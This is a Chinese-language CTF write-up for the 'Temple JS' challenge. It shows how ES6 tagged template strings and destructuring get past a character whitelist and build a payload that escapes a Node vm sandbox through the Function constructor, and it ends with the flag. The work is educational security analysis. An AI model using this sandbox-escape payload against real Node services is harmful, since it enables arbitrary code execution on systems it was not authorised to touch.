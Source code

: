 # Temple JS

ES6新引入了模板字符串，使用反引号括起来的字符串可以内嵌模板，也可以调用所谓的“标签”（任何普通函数都可以），如：

```js
`abc${1+1}` //"abc2"
somefunction`abc${1}def${2}ghi` //somefunction(["abc","def","ghi",{"raw":"..."}], 1, 2)
```

查看题目源码，整体流程是对我们输入的字符串进行过滤，然后放到vm里执行。过滤用的正则是``/^[a-zA-Z0-9 ${}`]+$/g``，同时也给了一个函数``par: (v => `(${v})` ``，用来加括号。我们的目的是得到在vm外的global.flag。

首先本机跑一下，去掉正则限制，发现下面的payload可以得到flag，绕沙箱不是本题重点：

```js
par.constructor.constructor(`return flag`)()
```

不用点来调用成员，可以考虑[解构赋值](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Operators/Destructuring_assignment)：

```js
function fff({constructor}){return constructor};

用模板字符串的方式写=>
`function fff({constructor}){return constructor}`

为了加上括号，同时将{constructor}作为第二个参数传入=>
`${`function fff${par`a${1}{constructor}`}{return constructor}`}`
```

现在我们写出来的，只是一个字符串而已。怎么调用eval来执行这个字符串呢，用\`\`必然会让第一个参数变成数组，导致eval失败。我们可以使用[Function构造函数](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Function)直接建立一个eval第二个参数的函数，然后就可以将我们的字符串eval出来了：

```js
Function`a${`return eval${par`b`}`}b``${`function fff${par`a${1}{constructor}`}{return constructor}`}`

fff(par)("return flag")() => `...fff``${par}``return flag```
```

所以最后的payload就是：

```js
Function`a${`return eval${par`b`}`}b``${`function fff${par`a${1}{constructor}`}{return constructor}fff`}``${par}``return flag```
```

`p4{js_template_strings_are_so_functional}`
